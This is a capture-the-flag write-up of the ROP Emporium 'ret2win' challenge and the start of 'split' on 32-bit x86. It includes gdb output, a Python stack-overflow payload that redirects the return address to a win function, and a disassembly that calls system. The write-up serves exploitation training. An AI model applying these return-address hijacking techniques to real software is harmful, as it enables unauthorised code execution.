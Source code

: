 I begin by using the `info functions` function within gdb to see which functions are available within the binary. I spot a fairly interesting function called `ret2win`. 
```bash
(gdb) info functions   
All defined functions:  
  
Non-debugging symbols:
...
0x0804862c ret2win
...
```
I will redirect execution to the address associated with the ret2win function. I wrote a small python program to generate the desired payload. 
```python 
import struct
import sys
buf=b'\x41'*44 # padding for the first 44 bytes
buf+= struct.pack('<L',0x0804862c) # address of ret2win
buf+=b'\n'
out= bytes(buf)
sys.stdout.buffer.write(out) 
```
Running `python3 ret2win32.py | ./ret2win32` results in the flag being outputted. 
```bash
python3 ret2win32.py | ./ret2win32  
ret2win by ROP Emporium  
x86  
  
For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!  
What could possibly go wrong?  
You there, may I have your input please? And don't worry about null bytes, we're using read()!  
  
> Thank you!  
Well done! Here's your flag:  
ROPE{a_placeholder_32byte_flag!}  
fish: Process 16443, './ret2win32' from job 1, 'python3 ret2win32.py | ./ret2wi…' terminated by signal SIGSEGV (Address boundary error)
```

## split
The offset is the same as the last binary 44. The prompt for the challenge suggests there will be a need to form a short rop chain. I begin by looking at the functions available.  
```bash
(gdb) info functions   
All defined functions:  
  
Non-debugging symbols:
...
0x0804860c usefulFunction
...
```
I look at the disassembly of the `usefulFunction.` 
```bash
(gdb) disassemble usefulFunction  
Dump of assembler code for function usefulFunction:  
  0x0804860c <+0>:     push   %ebp  
  0x0804860d <+1>:     mov    %esp,%ebp  
  0x0804860f <+3>:     sub    $0x8,%esp  
  0x08048612 <+6>:     sub    $0xc,%esp  
  0x08048615 <+9>:     push   $0x804870e  
  0x0804861a <+14>:    call 0x80483e0 <system@plt>  
  0x0804861f <+19>:    add    $0x10,%esp  
  0x08048622 <+22>:    nop  
  0x08048623 <+23>:    leave   
  0x08048624 <+24>:    ret   
```